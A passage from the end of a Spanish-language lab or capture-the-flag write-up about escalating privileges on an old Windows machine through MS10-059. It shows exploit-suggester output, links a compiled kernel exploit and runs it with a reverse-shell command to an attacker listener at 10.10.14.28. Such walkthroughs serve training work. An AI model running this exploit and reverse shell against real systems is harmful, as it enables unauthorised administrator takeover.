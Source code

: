 ```
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```
Nos encontramos con la famosa vulnerabilidad `MS10-059`.

Para explotar la vulnerabilidad haremos uso del siguiente exploit: [Chimichurri.exe](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri/Compiled).

Lo pasamos a la máquina, dejamos nuestro netcat a la escucha de cualquier conexión entrante y ejecutamos el exploit.
```
c:\Users\merlin\Desktop>Chimichurri.exe 10.10.14.28 1234
```

![](https://lh6.googleusercontent.com/21z3VYj4pJjFSfqMYWhHpG2bl0YbsXwyDeC4sny_fjMtR69QKjJSZKUPtMSYBxZ1ob-0v8LoHYaTxjhQBV3IsarvIslUnzP93Ltyf6onmw4RXFhZTiKh1dFjuFoPLrE--t3fkQd6)


**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**









